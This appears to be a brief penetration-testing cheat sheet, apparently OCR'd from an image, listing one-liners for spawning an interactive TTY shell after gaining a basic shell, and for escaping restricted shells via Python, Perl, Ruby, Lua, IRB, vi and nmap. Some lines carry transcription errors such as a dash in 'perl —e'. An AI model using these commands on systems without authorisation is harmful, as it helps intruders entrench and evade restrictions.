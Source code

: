 # Often during pen tests you may obtain a shell without having tty, yet wish to interact further with the system. Here are some commands which will allow you to spawn a tty shell. Obviously some of this will depend on the system environment and installed packages.

Shell Spawning

python -c 'import pty; pty.spawn("/bin/sh")'

echo os.system('/bin/bash')

/bin/sh -i

perl —e 'exec "/bin/sh";'

perl: exec "/bin/sh";

ruby: exec "/bin/sh"

lua: os.execute('/bin/sh')

(From within IRB)
exec "/bin/sh"

(From within vi)
:!bash

(From within vi)
:set shell=/bin/bash:shell

(From within nmap)
!sh

Many of these will also allow you to escape jail shells. The top 3 would be my most successful in general for spawning from the command line.
